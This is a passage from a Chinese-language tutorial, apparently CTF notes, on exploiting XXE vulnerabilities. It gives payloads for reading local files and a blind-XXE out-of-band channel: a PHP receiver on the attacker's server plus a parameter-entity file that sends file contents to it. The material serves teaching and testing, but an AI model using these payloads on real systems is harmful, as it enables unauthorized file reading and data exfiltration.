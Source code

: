 可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求test.xml的请求。若支持引用外部实体，则页面很有可能存在xxe漏洞。

#### 漏洞利用

##### 文件读取

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY name SYSTEM "file://c:\test.txt">]>
<root>&name;</root>
```

or（2023 moectf payload）

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///flag"> ]>
<xml><name>&b;</name></xml>
```

##### Blind XXE漏洞

针对无回显的xxe漏洞，我们可以通过构造一个外带信道来带出数据

在自己的vps服务器上创建test.php写入以下内容：

```php
<?php  
file_put_contents("test.txt", $_GET['file']) ;  
?>
```

在目标服务器上创建index.php写入以下内容：

```php
<?php  
$xml=<<<EOF  
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
<!ENTITY % file SYSTEM "file:///C:/test.txt">  
<!ENTITY % remote SYSTEM "http://localhost/test.xml">  
%remote;
%all;
%send;  
]>  
EOF;  
$data = simplexml_load_string($xml) ;  
echo "<pre>" ;  
print_r($data) ;  
?>
```

并创建test.xml并写入以下内容：

```xml
[html] view plain copy
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'>">
```
